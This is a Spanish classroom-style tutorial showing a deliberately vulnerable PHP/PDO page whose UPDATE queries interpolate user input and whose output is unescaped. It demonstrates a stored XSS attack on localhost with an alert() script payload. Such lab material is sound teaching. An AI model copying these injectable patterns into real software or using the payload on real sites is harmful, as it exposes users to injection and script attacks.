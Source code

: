 # Hacer fallar una pagina (php con base de datos)
Para ello cogeremos una parecida a la usada en IAW
https://github.com/PabloQueipo/IAW/blob/master/2020_12_01.md

En este caso usaremos la siguiente:

```powershell
<?php
	$edad = isset($_GET['edad'])? $_GET["edad"]: "";
	$operacion = isset($_GET['operacion'])? $_GET["operacion"]: "";
	$leer = htmlspecialchars($_GET['leer']);
	
		$var = "datos.ini";
		$base = parse_ini_file($var);		
		$php = new PDO($base["baseDeDatos"],$base["usuario"],$base["password"]);
		
		$con = $php->prepare("SELECT * from nombre;");
		$con->execute();
		$registros = $con->fetchAll(PDO::FETCH_NUM);
		$numer = $registros[0][0];
		
	if($operacion == "incrementar")
	{
		$edad =  $numer + 1;
		$top = $php->prepare("Update `nombre` set edad='$edad' where edad='$numer';");
		$top->execute();
	}
	elseif($operacion == "reducir")
	{
		$edad =  $numer - 1;
		$top = $php->prepare("Update `nombre` set edad='$edad' where edad='$numer';");
		$top->execute();
	}	
	elseif($operacion == "numero")
	{
		$edad = $edad;
		$top = $php->prepare("Update `nombre` set edad='$edad' where edad='$numer';");
		$top->execute();
	}
elseif($operacion == "leer")
	{
		$con = $php->prepare("SELECT * from nombre;");
		$con->execute();
		$registros = $con->fetchAll(PDO::FETCH_NUM);
		$numer = $registros[0][0];
		echo $numer;
	}	
	else
	{
		  $numer;
	}
?>

<!DOCTYPE html>
<html>
<head>
<meta content="text/html; charset=utf-8" http-equiv="Content-Type">
<style type="text/css">
  .boton_personalizado{
    text-decoration: none;
    padding: 10px;
    font-weight: 600;
    font-size: 20px;
    color: #ffffff;
    background-color: #1883ba;
    border-radius: 6px;
    border: 2px solid #0016b0;
  }
  .boton_personalizado:hover{
    color: #1883ba;
    background-color: #ffffff;
  }
  </style>
<title>P017</title>
</head>
<body>
	<div id="pagina">
		<form action="./edad.php" method="get">
			<p>
				<label>Número</label>   
				<input type="text" name="edad" value="<?php echo "$edad"; ?>"/>
			</p>
			<p>
				<input class="boton_personalizado" type="submit" name="operacion" value="incrementar"/>
			</p>
			<p>
				<input class="boton_personalizado" type="submit" name="operacion" value="reducir"/>
			</p>
		</form>
	</div>
</body>
</html>
```

En esta hemos añadido dos nuevos $_Get 
- Numero
- Leer

Para realizar un ataque XSS primero guardaremos en la base datos el ataque.
Empezaremos con un mensaje de alerta, en la barra de direcciones introduciremos lo siguiente
```powershell
http://localhost/edad.php?edad=<script>alert("TE HAN HACKEADO")</script>&operacion=numero
```
Si observamos la base de datos, el script se habrá guardado dentro de ella.
A continuación vamos a llamar a la base de datos de la siguiente manera

```powershell
http://localhost/edad.php?edad=&operacion=leer
```
Nos habrá aparecido un cuadro de alerta con el mensaje.

